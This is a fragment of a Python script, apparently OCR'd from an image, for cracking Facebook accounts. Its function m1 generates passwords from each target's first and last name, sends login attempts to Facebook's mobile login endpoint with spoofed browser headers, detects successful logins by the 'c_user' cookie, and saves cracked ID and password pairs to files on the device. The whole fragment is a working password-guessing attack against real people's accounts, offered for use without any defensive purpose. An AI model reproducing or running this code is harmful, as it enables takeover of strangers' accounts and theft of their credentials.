 					#crack_submit.submit(ffb4,ids,names,passlist)
				#elif mthd in ['7','07']:
					#crack_submit.submit(ffb7,ids,names,passlist)
				#elif mthd in ['8','08']:
					#crack_submit.submit(ffb8,ids,names,passlist)
				#else:
					#crack_submit.submit(m5,ids,names,passlist)
				
def m1(ids,names,passlist):
        global loop,oks,cps
        sys.stdout.write(f'\r\r\033[1;37m [\033[1;32mANONYMOUS] \033[1;36m•\033[1;37m %s \033[1;36m•\033[1;37m OK \033[1;36m•\033[1;37m [\033[1;32m%s\033[1;37m]'%(loop,len(oks)));sys.stdout.flush()
        session = requests.Session()
        try:
                first = names.split(f' ')[0]
                try:
                        last = names.split(f' ')[1]
                except:
                        last = 'ANONYMOUS'
                ps = first.lower()
                ps2 = last.lower()
                for fikr in passlist:
               	        pas = fikr.replace(f'First',first).replace(f'Last',last).replace(f'first',ps).replace(f'last',ps2)
                        ua=random.choice(ugen)
                        head = {'Host': 'm.facebook.com', 'viewport-width': '980', 'sec-ch-ua': '" Not A;Brand";v="99", "Chromium";v="101", "Google Chrome";v="101"', 'sec-ch-ua-mobile': '?1', 'sec-ch-ua-platform':'"Windows"', 'sec-ch-prefers-color-scheme': 'light', 'dnt': '1', 'upgrade-insecure-requests': '1', 'user-agent': ua, 'accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*[inserted by cython to avoid comment closer]/[inserted by cython to avoid comment start]*;q=0.8,application/signed-exchange;v=b3;q=0.9', 'sec-fetch-site': 'none', 'sec-fetch-mode': 'navigate', 'sec-fetch-user': '?1', 'sec-fetch-dest': 'document', 'accept-encoding': 'gzip, deflate, br', 'accept-language': 'en-US,en;q=0.9'}
                        getlog = session.get(f'https://p.facebook.com/login/device-based/password/?uid={ids}&flow=login_no_pin&refsrc=deprecated&_rdr')
                        idpass ={"lsd":re.search(f'name="lsd" value="(.*?)"', str(getlog.text)).group(1),"jazoest":re.search(f'name="jazoest" value="(.*?)"', str(getlog.text)).group(1),"uid":ids,"next":"https://p.facebook.com/login/save-device/","flow":"login_no_pin","pass":pas,}
                        complete = session.post(f'https://p.facebook.com/login/device-based/validate-password/?shbl=0',data=idpass,allow_redirects=False,headers=head)
                        Fof=session.cookies.get_dict().keys()
                        if "c_user" in Fof:
                                coki=session.cookies.get_dict()
                                kuki = (f";").join([ "%s=%s" % (key, value) for key, value in session.cookies.get_dict().items() ])
                                print(f'\r\r\033[1;32m [\033[1;32mANONYMOUS\033[1;36m•\033[1;37m\033[1;32mOK] %s \033[1;36m•\033[1;37m\033[1;32m %s'%(ids,pas))
                                #cek_apk(session,coki)
                                #print(f'\033[1;36m [Cookie]\033[1;37m : '+coki)
                                open(f'/sdcard/FOF•OK•M1.txt', 'a').write(ids+'|'+pas+'\n')
                                oks.append(ids)
                                break
                        elif 'checkpoint' in Fof:
                                if 'y' in pcp:
                                        print(f'\r\r\x1b[38;5;208m [ANONYMOUS•CP] '+ids+' • '+pas+'\033[1;97m')
                                        open(f'/sdcard/ANONYMOUS•CP.txt', 'a').write(ids+'|'+pas+'\n')
                                        cps.append(ids)
                                        break
                                else:
                                        break
                        else:
                                continue
        except requests.exceptions.ConnectionError:
                time.sleep(20)
        loop+=1
                        